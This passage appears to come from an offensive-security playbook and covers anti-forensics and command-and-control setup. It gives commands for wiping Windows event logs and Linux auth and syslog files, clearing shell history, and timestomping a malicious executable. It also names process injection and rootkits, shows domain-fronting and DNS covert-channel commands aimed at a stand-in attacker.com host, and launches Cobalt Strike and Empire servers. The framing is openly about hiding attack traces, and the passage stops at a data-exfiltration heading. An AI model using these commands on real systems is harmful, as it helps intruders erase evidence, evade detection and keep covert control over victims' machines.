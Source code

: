 ### Anti-Forensics and Evasion
**Objective**: Avoid detection and hide attack traces

**Techniques**:
```bash
# 1. Log manipulation
# Clear Windows event logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Clear Linux logs
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
history -c

# 2. Timestomping
# Modify file timestamps to avoid detection
touch -t 202001010000 malicious_file.exe

# 3. Process injection and hollowing
# Inject malicious code into legitimate processes
# Use techniques like DLL injection, process hollowing

# 4. Rootkit deployment
# Deploy kernel-level rootkits for persistent access
# Hide processes, files, and network connections
```

## Command and Control (C2) Infrastructure

### Advanced C2 Setup
**Objective**: Establish robust command and control infrastructure

**Techniques**:
```bash
# 1. Domain fronting
# Use legitimate domains to hide C2 traffic
curl -H "Host: attacker.com" https://legitimate-cdn.com/path

# 2. DNS over HTTPS (DoH) C2
# Use DoH for covert communication
dig @1.1.1.1 -t TXT command.attacker.com

# 3. Cobalt Strike setup
./teamserver attacker_ip password malleable_profile.profile

# 4. Empire framework
./empire --rest --username admin --password password
```

## Data Exfiltration Techniques
